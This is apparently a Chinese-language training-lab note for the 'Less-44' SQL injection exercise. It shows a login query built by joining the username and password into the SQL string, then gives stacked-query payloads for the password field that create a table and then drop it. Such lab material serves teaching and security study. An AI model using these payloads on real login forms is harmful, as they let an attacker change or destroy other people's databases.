

# Less-44
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
本关和前面的基本是一样的，只是没有报错回显信息
此时的sql为： $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
在登录的时候，我们使用任意的username，password可以构造为：
a’; create table crow like users; #   然后观察是否有crow表
a‘;  drop table crow; # 观察crow表是否删除